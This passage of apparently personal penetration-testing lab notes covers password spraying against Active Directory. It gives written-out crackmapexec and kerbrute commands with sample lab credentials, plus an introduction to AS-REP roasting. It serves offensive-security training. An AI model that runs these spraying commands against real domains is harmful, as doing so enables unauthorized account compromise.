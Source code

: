 		- -Admin = test admin accounts
	- Output --> ```'pete' with password: 'Nexus123!'
		 'jen' with password: 'Nexus123!'```

2nd Type of Password spraying attack (SMB):
	- Drawback:
		- For example, for every authentication attempt, a full SMB connection has to be set up and then terminated.
	- **crackmapexec**
		- `cat users.txt`
		- `crackmapexec smb 192.168.200.75 -u usernames.txt -p 'Nexus123!' -d corp.com --continue-on-success`
			- smb = protocol
			- -u = username/file
			- -p = password
			- -d = domain
			- --continue-on-success = avoid stopping at the first valid credential
	- Bonus:
		- output of crackmapexec not only displays if credentials are valid, but also if the user with the identified credentials has admin priv on tgt system
	- Dave is a local admin on CLIENT75. Let's use crackmapexec with the password Flowers1 targeting this machine
		-`crackmapexec smb 192.168.50.75 -u dave -p 'Flowers1' -d corp.com`

3rd Type of Password spraying attack (TGT)
- *kinit*
	- Can obtain and cache a Kerberos TGT
		- Need to provide a username and password
	- Advantage:
		-  only uses two UDP frames
			- To determine whether the password is valid, it sends only an AS-REQ and examines the response
- *kerbrute*
	- automate obtaining and caching a Kerberos TGT
	- Location: **`C:\Tools`**
	`.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"`
		- passwordspray = command 
		- -d = domain
		- user.file pass
		-[`If you receive a network error, make sure that the encoding of usernames.txt is ANSI. You can use Notepad's Save As functionality to change the encoding.`]

### AS-REP Roasting

- *Kerberos preauthentication*
	- As we have discussed, the first step of the authentication process via Kerberos is to send an AS-REQ. Based on this request, the domain controller can validate if the authentication is successful. If it is, the domain controller replies with an AS-REP containing the session key and TGT
- *AS-REP Roasting* (attack)
	- Without Kerberos preauthentication in place, an attacker could send an AS-REQ to the domain controller on behalf of any AD user. After obtaining the AS-REP from the domain controller, the attacker could perform an offline password attack against the encrypted part of the response.
	- By default, the AD user account option Do not require Kerberos preauthentication is disabled
	-  However, it is possible to enable this account option manually	
